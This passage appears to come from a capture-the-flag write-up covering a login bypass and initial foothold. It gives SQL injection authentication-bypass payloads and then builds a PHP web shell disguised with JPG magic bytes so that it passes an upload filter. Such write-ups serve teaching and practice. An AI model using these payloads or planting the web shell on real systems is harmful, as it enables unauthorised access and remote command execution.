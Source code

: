 One of the payloads allowed us to get access (It works with and without spaces):

```shell
admin'or'1'='1
admin' or '1'='1
```

One SQL Injection Auth Bypass list I really like is:

https://gist.github.com/spenkk/2cd2f7eeb9cac92dd550855e522c558f

# Foothold
### Bypassing File Upload restrictions adding JPG Magic Bytes to our PHP shell
If we try to upload anything that is not JPG, JPEG or PNG, we will get the following message:

```shell
Sorry, only JPG, JPEG and PNG files are allowed.
```

If we just try to change the shell extension like this:

```shell
cp shell.php shell.php.jpg
```

We will still get an error message when trying to upload it.

It seems like its using the magic bytes of the files to recognize if they are jpg, jpeg, png or anything else.

Searching on Google we found the Magic Bytes for JPG files:

```shell
FF D8 FF EE
```

Lets create a PHP shell and then add the Magic Bytes for JPG.

First create the PHP shell like this:

```shell
echo '....' > shell.php.jpg
echo '<?php system($_GET["cmd"]); ?>' >> shell.php.jpg
```

Entering 4 points we kept our PHP shell intact while adding the lenght we will change for the JPG Magic Bytes:

```shell
.... = 2E 2E 2E 2E
```

Another way to create the file:

```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php.jpg
echo -e "....\n$(cat shell.php.jpg)" > shell.php.jpg
```
